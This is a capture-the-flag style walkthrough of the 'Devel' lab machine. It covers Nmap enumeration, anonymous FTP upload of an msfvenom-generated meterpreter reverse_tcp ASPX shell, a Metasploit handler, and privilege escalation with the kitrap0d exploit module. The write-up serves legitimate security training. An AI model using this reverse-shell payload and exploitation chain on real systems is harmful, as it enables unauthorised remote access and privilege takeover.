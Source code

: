 # Devel - Machine

IP 10.10.10.5
Easy Windows 

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools

- Nmap
- ftp
- Metasploit

## Enumeration

- Nmap shows port 21 and 80 is open.

## Exploitation

- FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
- Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

- Used `local_exploit_suggester` module for this.
- After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
